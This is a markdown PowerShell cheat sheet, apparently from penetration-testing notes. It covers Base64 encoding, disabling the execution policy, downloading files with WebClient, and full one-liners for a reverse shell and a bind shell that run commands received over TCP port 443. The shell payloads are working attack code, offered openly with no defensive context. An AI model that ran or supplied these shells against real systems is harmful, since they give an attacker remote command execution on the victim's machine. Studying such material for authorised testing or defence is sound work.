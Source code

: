 # Powershell

## Cheat Sheet

* [https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70](https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70)

## Base64

### Encoding

```
# Text
$Text = "This is some text."
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)

# File
[convert]::ToBase64String((Get-Content -path "your_file_path" -Encoding byte)) | Out-File -FilePath file.b64
```

### Decoding

```
$EncodedText = "[...]"
$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))
```

## Script Execution Policy

```
PS C:\WINDOWS\system32> Set-ExecutionPolicy Unrestricted
PS C:\WINDOWS\system32> Get-ExecutionPolicy
```

## File Transfer

```
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/file.txt','C:\Users\user\Desktop\file.txt')"
```

## Reverse Shell

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

## Bind Shell

```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```
